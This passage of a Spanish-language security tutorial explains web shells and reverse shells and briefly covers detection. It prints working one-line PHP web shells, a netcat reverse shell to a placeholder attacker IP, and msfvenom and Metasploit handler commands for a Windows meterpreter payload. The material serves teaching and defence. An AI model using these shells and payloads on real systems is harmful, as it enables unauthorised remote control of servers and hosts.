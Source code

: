#### Lenguajes comunes para Web Shells

- **PHP**:  Esta simple shell PHP toma un parámetro `cmd` y lo ejecuta en el servidor: `<?php system($_GET['cmd']); ?>` -
- **ASP/ASPX** (utilizado en servidores Windows).
- **JSP** (Java Server Pages) para servidores basados en Java.

#### Detección y defensa

- **Vigilancia de la integridad de los archivos**: Comprobación de cambios no autorizados en directorios web.
- **WAF (Web Application Firewalls)**: Los WAF suelen detectar y bloquear los web shells.
- **Análisis de contenido**: Escaneo de archivos en el servidor en busca de patrones comunes de web shell o código sospechoso.

---

### Resumen de escenarios de ejemplo

1. **Shell inversa con Netcat**:
   
      - **Atacante (Listener)**:
       ```bash
       nc -lvp 4444
       ```
       La opción **-l** le indica a netcat que espere una conexión, **-v** activa la salida detallada del comando, **-n** impide que las conexiones hagan uso de una búsqueda DNS (no se resolverá ningún nombre, se utilizarán IPs). Finalmente la opción **-p** indica el puerto en el que se escuchará en espera de conexciones entrantes.

       - **Víctima (Payload)**:
       ```bash
       nc [atacante_IP] 4444 -e /bin/bash
       ```

        Se podría utilizar cualquier puerto *libre* para escuchar.

2. **Metasploit Reverse TCP Payload**:
      - Generar un payload:
      ```bash
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker_IP] LPORT=4444 -f exe -o reverse_shell.exe
      ```
      - **Escucha en Metasploit**:
      ```bash
      msfconsole
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set LHOST [atacante_IP]
      set LPORT 4444
      exploit
      ```

3. **Shell Web PHP**:
      - Crea una shell web PHP básica y súbela a un servidor web vulnerable.
      ```php
      <?php echo shell_exec($_GET['cmd']); ?>
      ```
      - Accede a la web shell navegando a `http://victima.com/shell.php?cmd=whoami`.

---